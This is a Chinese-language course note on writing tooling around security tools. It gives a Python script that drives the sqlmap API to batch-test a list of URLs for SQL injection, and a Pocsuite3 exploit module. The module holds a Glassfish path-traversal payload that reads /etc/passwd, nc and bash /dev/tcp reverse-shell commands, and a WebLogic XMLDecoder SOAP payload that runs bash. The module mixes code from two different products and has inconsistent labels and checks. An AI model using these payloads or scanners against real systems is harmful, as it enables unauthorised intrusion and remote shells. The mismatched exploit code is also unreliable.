



# 思维导图


# 知识点

本课知识点：
Request 爬虫技术，Sqlmap 深入分析，Pocsuite 分析，框架代码二次修改等

# 目的


**掌握安全工具的 API 接口开发利用，掌握优秀框架的二次开发插件引用等**


# 演示案例：

## Sqlmap_Tamper 模块脚本编写绕过滤


## SqlmapAPI 调用实现自动化 SQL 注入安全检测

参考文章

[https://www.freebuf.com/articles/web/204875.html](https://www.freebuf.com/articles/web/204875.html)

应用案例：前期通过信息收集拿到大量的URL地址，这个时候可以配合SqlmapAPI接口进行批量的SQL注入检测（SRC 挖掘）

```shell
开发当前项目过程：（利用 sqlmapapi 接口实现批量 URL 注入安全检测）
1.创建新任务记录任务 ID @get("/task/new")
2.设置任务 ID 扫描信息 @post("/option/<taskid>/set ")
3.开始扫描对应 ID 任务 @post("/scan/<taskid>/start")
4.读取扫描状态判断结果 @get("/scan/<taskid>/status")
5.如果结束删除 ID 并获取结果 @get("/task/<taskid>/delete")
6.扫描结果查看@get("/scan/<taskid>/data")
```

#### 基础demo

```python
import requests
import json

# 创建任务id
task_new_url='http://127.0.0.1:8775/task/new'
resp= requests.get(task_new_url)
task_id=resp.json()['taskid']
print(task_id)

# 设置任务id的配置信息（扫描信息）
data ={
    'url':'http://127.0.0.1/sqli-labs-master/Less-2/?id=1'
}
headers={
    'Content-Type':'application/json'
}
task_set_url='http://127.0.0.1:8775/option/'+task_id+'/set'
print(task_set_url)
task_set_resp=requests.post(task_set_url,data=json.dumps(data),headers=headers)
print(task_set_resp.json())

# 开始扫描对应 ID 任务
task_scan_url='http://127.0.0.1:8775/scan/'+task_id+'/start'
print(task_scan_url)
task_scan_resp=requests.post(task_scan_url,data=json.dumps(data),headers=headers)
print(task_scan_resp.json())

# 读取扫描状态判断结果
task_scan_status_url='http://127.0.0.1:8775/scan/'+task_id+'/status'
print(task_scan_status_url)
task_scan_status_resp=requests.get(task_scan_status_url)
print(task_scan_status_resp.json())

# 如果结束删除 ID 并获取结果
# 扫描结果查看

```




#### 自动化SQL注入检测脚本

```python
import time
import requests
import json

def sqlmapapi(url):
    data = {
        'url':url
    }
    headers = {
        'Content-Type': 'application/json'
    }
    # 1-创建任务id
    task_new_url = 'http://127.0.0.1:8775/task/new'
    resp = requests.get(task_new_url)
    task_id = resp.json()['taskid']
    print('创建任务id')
    # print(task_id)
    if 'success' in resp.json():
        print('创建任务id 成功！')
        # 2-设置任务id的配置信息（扫描信息）
        task_set_url = 'http://127.0.0.1:8775/option/' + task_id + '/set'
        print('设置任务id的配置信息')
        # print(task_set_url)
        task_set_resp = requests.post(task_set_url, data=json.dumps(data), headers=headers)
        # print(task_set_resp.json())
        if  'success' in task_set_resp.json():
            print('设置任务id的配置信息成功！')
            # 3-开始扫描对应 ID 任务
            task_scan_url = 'http://127.0.0.1:8775/scan/' + task_id + '/start'
            print('开始扫描对应 ID 任务')
            # print(task_scan_url)
            task_scan_resp = requests.post(task_scan_url, data=json.dumps(data), headers=headers)
            # print(task_scan_resp.json())
            if 'success' in task_scan_resp.json():
                print('开始扫描对应成功 ')
                while 1:
                    # 4-读取扫描状态判断结果
                    task_scan_status_url = 'http://127.0.0.1:8775/scan/' + task_id + '/status'
                    print('读取扫描状态判')
                    # print(task_scan_status_url)
                    task_scan_status_resp = requests.get(task_scan_status_url)
                    # print(task_scan_status_resp.json())
                    if 'running' in task_scan_status_resp.content.decode('utf-8'):
                        print('task scn is running ')
                        pass

                    else:
                        print('sqlmapapi scan finished')
                        # 扫描结果保存
                        task_scan_data_url='http://127.0.0.1:8775/scan/' + task_id + '/data'
                        task_scan_data_url_resp=requests.get(task_scan_data_url).content.decode('utf-8')
                        task_scan_data=task_scan_data_url_resp
                        with open(r'results.txt','a+') as f:
                            f.write(url+'\n')
                            f.write(task_scan_data+'\n')
                            f.write('==========python sqlmapapi scan result=========' + '\n')
                            f.close()
                            # 删除任务id
                            scan_deltask_url='http://127.0.0.1:8775/task/' + task_id + '/delete'
                            scan_deltask = requests.get(scan_deltask_url)
                            if 'success' in scan_deltask.content.decode('utf-8'):
                                print('删除任务id成功')
                                break
                    # 设置读取状态时间
                    time.sleep(1)


if __name__ == '__main__':
    print('task_running')
    for url in open('url.txt'):
        url = url.replace('\n', '')
        sqlmapapi(url)

```




## Pocsuite3 漏扫框架二次开发 POC/EXP 引入使用

（二次开发，构成自己的poc/exp库）

参考：[https://www.freebuf.com/articles/people/162868.html](https://www.freebuf.com/articles/people/162868.html)

```shell
开发当前项目过程：（利用已知框架增加引入最新或内部的 EXP 进行安全检测）
1.熟悉 Pocsuite3 项目使用及介绍
2.熟悉使用命令及代码文件对应情况
3.选取 Glassfish 漏洞进行编写测试
4.参考自带漏洞模版代码模仿写法测试
python cli.py -u xx.xx.xx.xx -r Glassfish.py --verify
```

安装好Pocsuite3-master项目

运行poc




#### glassfish_poc

```python
"""
If you have issues about development, please read:
https://github.com/knownsec/pocsuite3/blob/master/docs/CODING.md
for more about information, plz visit http://pocsuite.org
"""

import re
from collections import OrderedDict
from urllib.parse import urljoin

from pocsuite3.api import Output, POCBase, register_poc, requests, logger, POC_CATEGORY, OptDict, VUL_TYPE
from pocsuite3.api import get_listener_ip, get_listener_port
from pocsuite3.lib.utils import random_str


class DemoPOC(POCBase):
    vulID = '97009'  # ssvid
    version = '3.0'
    author = ['xiaodi']
    vulDate = '2020-12-22'
    createDate = '2020-12-22'
    updateDate = '2020-12-22'
    references = ['https://www.xiaodi8.com']
    name = 'Glassfish任意文件读取漏洞'
    appPowerLink = ''
    appName = 'Glassfish'
    appVersion = '< 10.3.6'
    vulType = VUL_TYPE.CODE_EXECUTION
    desc = '''
        Glassfish任意文件读取漏洞将导致敏感数据泄露，进一步利用会造成权限丢失等安全隐患！
    '''
    samples = []
    install_requires = ['']
    category = POC_CATEGORY.EXPLOITS.REMOTE

    def _options(self):
        o = OrderedDict()
        payload = {
            "nc": "rm -f /tmp/p;mknod /tmp/p p &amp;&amp; nc {0} {1} 0/tmp/p",
            "bash": "bash -i &gt;&amp; /dev/tcp/{0}/{1} 0&gt;&amp;1",
        }
        o["command"] = OptDict(selected="bash", default=payload)
        return o

    def get_check_payload(self, lhost, lport, random_uri):
        check_payload = '''
            <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
              <soapenv:Header>
                <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
                  <java version="1.8" class="java.beans.XMLDecoder">
                    <object id="url" class="java.net.URL">
                      <string>http://{lhost}:{lport}/{random_uri}</string>
                    </object>
                    <object idref="url">
                      <void id="stream" method = "openStream" />
                    </object>
                  </java>
                </work:WorkContext>
                </soapenv:Header>
              <soapenv:Body/>
            </soapenv:Envelope>
        '''

        return check_payload.format(
            lhost=lhost, lport=lport, random_uri=random_uri)

    def _verify(self):
        result={}
        veri_url=self.url
        payload='/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd'
        try:
            #requests.post(veri_url, data=payload, headers=headers)
            resp = requests.get(veri_url+payload)
            print(resp.status_code)
            #pattern = 'http://{0}(:{1})?/{2}'.format(check_host, check_port, random_uri)

            if resp.status_code==200:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = veri_url
                result['VerifyInfo']['Payload'] = payload
        except Exception as e:
                pass
        return self.parse_output(result)

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('target is not vulnerable')
        return output

    def _attack(self):
        return self._verify()

    def get_shell_payload(self, cmd_base, cmd_opt, cmd_payload):
        shell_payload = '''
            <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
              <soapenv:Header>
                <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
                  <java>
                    <object class="java.lang.ProcessBuilder">
                      <array class="java.lang.String" length="3" >
                        <void index="0">
                          <string>{cmd_base}</string>
                        </void>
                        <void index="1">
                          <string>{cmd_opt}</string>
                        </void>
                        <void index="2">
                          <string>{cmd_payload}</string>
                        </void>
                      </array>
                      <void method="start"/>
                    </object>
                  </java>
                </work:WorkContext>
              </soapenv:Header>
              <soapenv:Body/>
            </soapenv:Envelope>
        '''
        return shell_payload.format(cmd_base=cmd_base, cmd_opt=cmd_opt,
                                    cmd_payload=cmd_payload)

    def _shell(self):
        vul_url = urljoin(self.url, '/wls-wsat/CoordinatorPortType')
        cmd = 'bash -i &gt;&amp; /dev/tcp/{0}/{1} 0&gt;&amp;1'.format(
            get_listener_ip(), get_listener_port())
        shell_payload = self.get_shell_payload('/bin/bash', '-c', cmd)
        headers = {
            "Content-Type": "text/xml;charset=UTF-8",
            "User-Agent": "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)"
        }

        try:
            requests.post(vul_url, data=shell_payload, headers=headers)
        except Exception as e:
            logger.warn(str(e))

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('target is not vulnerable')
        return output


register_poc(DemoPOC)

```


# 涉及资源：

[http://sqlmap.org/](http://sqlmap.org/)
[https://github.com/knownsec/pocsuite/](https://github.com/knownsec/pocsuite/)
[https://www.freebuf.com/articles/web/204875.html](https://www.freebuf.com/articles/web/204875.html)
[https://www.freebuf.com/articles/people/162868.html](https://www.freebuf.com/articles/people/162868.html)
[https://pan.baidu.com/s/13y3U6jX3WUYmnfKnXT8abQ 提取码：xiao](https://pan.baidu.com/s/13y3U6jX3WUYmnfKnXT8abQ 提取码：xiao)

